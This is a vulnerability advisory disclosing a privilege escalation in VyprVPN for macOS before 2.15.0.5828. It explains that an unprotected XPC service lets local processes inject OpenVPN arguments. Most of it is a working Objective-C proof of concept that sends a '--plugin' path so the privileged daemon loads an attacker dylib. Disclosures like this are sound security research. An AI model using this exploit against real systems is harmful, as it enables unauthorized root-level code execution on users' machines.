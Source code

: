 ### [VS-2017-007] VyprVPN for MacOS Privilege Escalation Vulnerability 

```
Download: https://www.goldenfrog.com/vyprvpn
CVE:
Author: Benjamin Watson of VerSprite Security
Affected: < 2.15.0.5828
```

#### Vulnerability Details

The VyprVPN's vyprvpnservice launch daemon has an unprotected XPC service that allows attackers to update the underlying OpenVPN configuration and the arguments passed to OpenVPN binary when executed. 
An attacker can abuse this vulnerability by forcing the VyprVPN application to load a malicious dynamic library every time a new connection is made.

#### Exploitation

#### PoC

```c
// Make XPC connection
NSLog(@"[+] Connecting to vyprvpnservice [!]");
xpc_connection_t connection = xpc_connection_create_mach_service("vyprvpnservice", NULL, 0);
assert(connection);
NSLog(@"[+] Service connection successfull [!]");
// Set XPC event handler
xpc_connection_set_event_handler(connection, ^(xpc_object_t event) {
    NSLog(@"[+] Received response from XPC service event handler [!]");
    char *description = xpc_copy_description(event);
    NSLog(@"[+] %s", description);
    free(description);
});
// Resume connection
xpc_connection_resume(connection);
// Build payload
NSLog(@"[+] Building XPC dictionary [!]");
xpc_object_t payload = xpc_dictionary_create(NULL, NULL, 0);
// {+} {"RequestedKey":"openvpn_additional_params","Value":"--plugin \/path\/to\/dylib","Action":"set"}
NSDictionary *dict = [[NSDictionary alloc] initWithObjectsAndKeys:@"openvpn_additional_params", @"RequestedKey", @"--plugin /Users/rotlogix/Development/Plugin/libPlugin", @"Value", @"set", @"Action", nil];
NSData *json = [NSJSONSerialization dataWithJSONObject:dict options:NSJSONWritingPrettyPrinted error:NULL];
xpc_dictionary_set_data(payload, "data", json.bytes, json.length);
NSLog(@"[+] XPC dictionary creation finished [!]");
// Send the XPC message
NSLog(@"[+] Sending XPC message with updated params --plugin /Users/rotlogix/Development/Plugin/libPlugin [!]");
xpc_connection_send_message_with_reply(connection, payload, NULL, ^(xpc_object_t event) {
    size_t dataLength;
    NSLog(@"[+] Received response from XPC service [!]");
    char *description = xpc_copy_description(event);
    NSLog(@"[+] %s", description);
    free(description);
    const void *returnData = xpc_dictionary_get_data(event, "data", &dataLength);
    NSData *myData = [NSData dataWithBytes:returnData length:dataLength];
    assert(myData);
    NSJSONSerialization *json = [NSJSONSerialization JSONObjectWithData:myData options:NSJSONReadingMutableLeaves error:NULL];
    NSLog(@"[+] %@", json );
});
```
